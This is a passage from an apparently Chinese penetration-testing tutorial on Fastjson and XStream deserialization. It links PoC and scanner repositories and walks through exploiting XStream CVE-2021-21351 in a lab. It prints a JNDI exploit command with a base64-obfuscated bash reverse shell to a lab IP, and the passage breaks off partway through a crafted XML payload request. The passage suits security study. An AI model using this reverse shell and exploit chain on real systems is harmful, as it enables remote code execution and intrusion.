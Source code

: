 这里插件会检测并且自动构造poc  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuGQxibN8ico8CoZGXM2Ofibgk2amGO8729TkicaYOsibNe1K8nbJ3dd9EIug/640?wx_fmt=png&from=appmsg "")  
  
然后构造一个rmi或者ldap注入即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuEIWO0jX2QL6n3Wj29sic4L29pZYptRdbzOt2oeb10IPuBJYQ7pib2XqA/640?wx_fmt=png&from=appmsg "")  
  
版本探针,我们开的也是1.2.24  
  
核心点：  
  
-  
利用POC  
集合  
  
https://github.com/kezibei/fastjson_payload  
  
https://mp.weixin.qq.com/s/t8sjv0Zg8_KMjuW4t-bE-w  
  
-  
探针JSON插件  
  
https://github.com/Tsojan/TsojanScan  
  
https://github.com/Maskhe/FastjsonScan  
  
https://github.com/pmiaowu/BurpFastJsonScan  
  
https://github.com/Niiiiko/FastjsonScan4Burp  
  
-  
拓展版  
靶场  
复现  
  
https://github.com/lemono0/FastJsonParty  
# 3、J2EE-组件XStream（XML）  
  
开源Java类库，能将对象序列化成XML或XML反序列化为对象  
  
历史漏洞：https://avd.aliyun.com/search?q=XStream  
### 代码执行 (CVE-2021-21351)  
  
Xstream<=1.4.15  
  
-生成反弹Shell的JNDI注入  
  
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c   
  
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjE1Mi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}" -A   
  
192.168.66.152  
  
-构造JNDI注入Payload提交  
```
POST / HTTP/1.1
Host: 192.168.66.152:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3181

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
```